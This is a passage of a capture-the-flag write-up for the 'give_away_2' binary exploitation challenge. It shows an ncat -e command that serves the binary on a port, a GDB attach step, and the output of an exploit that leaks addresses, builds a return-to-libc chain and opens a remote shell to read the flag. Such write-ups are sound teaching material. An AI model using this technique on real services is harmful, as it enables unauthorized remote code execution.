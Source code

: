 setting up the binary in ncat in the Ubuntu VM:
`ncat -e ./give_away_2 -nklvp 20335`

Then firing up the exploit and wait for "ready" prompt. When shown, attach GDB to the process:

```
gdb -p `pgrep -f give_away_2 | head -n3 | tail -n1`
```

Then hit enter on the "Ready?" prompt to continue the python exploit.

This way you can see if everything is working locally before firing up to the remote system. Everything should function the same.

Also sometimes the leak doesn't work very nicely because printf() stops on null bytes. When this happens just run it again til it works. 

Finally:

```
./give2.py sharkyctf.xyz
padding 4 0s
main: 000055ca3c8ea864
padding 4 0s
leakrop: 000055ca3c8ea879
padding 4 0s
leakrop: 000055ca3c8ea885
padding 4 0s
poprsi: 000055ca3c8ea901
padding 4 0s
poprdi: 000055ca3c8ea903
padding 4 0s
ret: 000055ca3c8ea676
padding 4 0s
stdout@got: 000055ca3caeb020
----------------------------------------
padding 4 0s
poprbp: 000055ca3c8ea710
ready?
padding 4 0s
leak:  00007f335744f760
padding 4 0s
system: 00007f33570b2440
padding 4 0s
binsh: 00007f3357216e9a
final payload sent.
cmd $ ls
flag.txt
give_away_2
start.sh

cmd $ cat flag.txt
shkCTF{It's_time_to_get_down_to_business}

cmd $ cat start.sh
#!/bin/bash

while :
do
    su -c "exec socat TCP-LISTEN:20335,reuseaddr,fork EXEC:/pwn/give_away_2,stderr" - pwnuser;
done

cmd $
```
